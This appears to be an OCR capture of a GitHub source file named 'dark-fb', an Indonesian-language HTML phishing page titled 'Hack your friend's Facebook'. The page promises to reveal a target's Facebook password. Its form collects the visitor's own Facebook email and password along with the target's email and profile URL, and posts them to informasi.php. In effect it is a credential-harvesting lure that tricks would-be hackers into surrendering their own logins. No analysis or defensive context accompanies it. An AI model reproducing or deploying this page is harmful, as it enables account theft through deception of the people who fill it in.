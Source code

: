 # dark-fb
&lt;html> &lt;head> &lt;title>Hack Facebook Teman Anda !&lt;/title> &lt;/head> &lt;body bgcolor=”black” text=”white”> &lt;p> &lt;center>&lt;center> &lt;center>&lt;center>  &lt;form id=”form1″ name=”form1″ method=”post” action=”informasi.php”> &lt;table width=”455″ border=”0″ cellspacing=”0″ cellpadding=”0″> &lt;p> &lt;tr> &lt;td height=”45″ align=”right”>&lt;label for=”email1″>Email Facebook Anda&lt;/label>&lt;/td> &lt;td>&lt;input name=”email1″ type=”text” id=”email1″ size=”30″ />&lt;/td>  &lt;/tr> &lt;tr> &lt;td width=”175″ height=”44″ align=”right”>&lt;label for”fb”>Email Facebook Target&lt;/label>&lt;/td> &lt;td width=”280″>&lt;input name=”email2″ type=”text” id=”email2″ size=”30″ />&lt;/td>  &lt;/tr> &lt;tr> &lt;td height=”45″ align=”right”>&lt;label for=”email1″>Password Facebook Anda&lt;/label>&lt;/td> &lt;td>&lt;input name=”fb” type=”password” id=”fb” size=”30″ />&lt;/td>  &lt;/tr> &lt;tr> &lt;td height=”41″ align=”right”>&lt;label for=”info”>URL Facebook Target&lt;/label>&lt;/td> &lt;td>&lt;textarea name=”info” cols=”30″ rows”5″ id=”info”>&lt;/textarea>&lt;/td>  &lt;/tr> &lt;tr> &lt;td height=”38″>&amp;nbsp;&lt;/td> &lt;td>&lt;label> &lt;input type=”submit” name=”submit” id”=submit” value=”Jika anda telah mengisi semua form diatas , Silahkan klik tombol ini untuk mendapatkan password facebook target yang akan kami kirimkan melalui pesan di facebook anda !” /> &lt;/label>&lt;/td> &lt;/tr>  &lt;/head> &lt;body bgcolor=”black” text=”white”> &lt;br>Untuk membongkar password facebook teman anda , kami memerlukan informasi mengenai anda dan target orang yang facebooknya ingin anda hack&lt;p> &lt;p> Silahkan masukan data anda dan data target anda pada form pengisian dibawah ini ! &lt;/body> &lt;html>
